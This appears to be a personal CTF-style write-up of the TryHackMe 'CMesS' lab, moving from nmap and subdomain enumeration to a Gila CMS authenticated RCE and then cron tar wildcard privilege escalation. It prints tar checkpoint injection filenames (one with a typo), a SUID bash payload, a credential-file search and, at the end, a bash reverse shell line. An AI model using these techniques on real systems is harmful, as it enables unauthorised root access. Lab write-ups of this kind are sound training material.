



# CMesS

This lab's focus is to train my Privilege Escalation skills in Linux. Let's start!

### Nmap Enumeration

```
nmap -A -p- <ip>
```

> Host is up (0.048s latency).
> Not shown: 65533 closed tcp ports (conn-refused)
> PORT   STATE SERVICE VERSION
> 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
> |   256 21c36e318b85228a6d72868fae64662b (ECDSA)
> |_  256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
> 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
> |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
> |_http-generator: Gila CMS
> | http-robots.txt: 3 disallowed entries 
> |_/src/ /themes/ /lib/
> |_http-server-header: Apache/2.4.18 (Ubuntu)
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
>
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
> Nmap done: 1 IP address (1 host up) scanned in 79.40 seconds

Great, SSH and HTTP are open.

### HTTP Port

Edit /etc/hosts file with the domain of the exercise.

We can see that it is a simple Forum powered by "Gila CMS". Found some potential exploits online but none of them were working.

Performed directory enumeration but did not find anything interesting.

Finally, performed some subdomain enumeration with ffuf:

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.cmess.thm" -u http://cmess.thm -fw 522
```

The initial output contained a lot of entries which were probably redirecting the user to the parent domain. After filtering for the common 522 words each output had I was able to extract a single subdomain.



After editing the /etc/hosts file I was able to get a pair of credentials to the admin portal.



KPFTN_f2yxe%



Great, I remembered an Authenticated RCE from Exploit-DB. Let's go check it out.

[This exploit is for version 1.10.9](https://www.exploit-db.com/exploits/51569) which matches our own which is on the bottom of the admin panel.

Let's read the code and see if it works for our context.

No modifications are necessary, just setup a listener on your end, call the exploit and provide the input it asks for.

Good job you got a shell!

### Privilege Escalation

Since the THM module about cron jobs was the one that redirected me to this machine I ran the command below:

```
cat /etc/crontab
```

The root user every 2 minutes runs the command below:

```
cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

Meaning it zips the content of the backup folder and stores it in the tmp folder.

We need to create 3 files inside backup to priv esc. Unfortunately we cant access this folder since we are www-data.

Before executing linpeas I decided to do some manual enumeration with the command:

```
find / -type f -name "*password*" 2>/dev/null
```

Found the /opt/.password.bak and the credentials for user andre

Logged in with SSH and proceeded to perform the privilege escalation by creating two files and a payload

```
touch /home/andre/backup/--checkpoint=1
touch /home--checkpoint-action=exec=sh\ payload.sh
nano payload.sh
chmod +x payload.sh
```

> #!/bin/bash
>
> cp /bin/bash /tmp/rootbash
> chmod +xs /tmp/rootbash

After that you wait and check if rootbash is in tmp created by root.

```
/tmp/rootbash -p
```

Congrats!

Alternatively you could also create a payload with msfvenom and use that or even use a bash reverse shell script:

> #!/bin/bash
> bash -i >& /dev/tcp/ip/port 0>&1
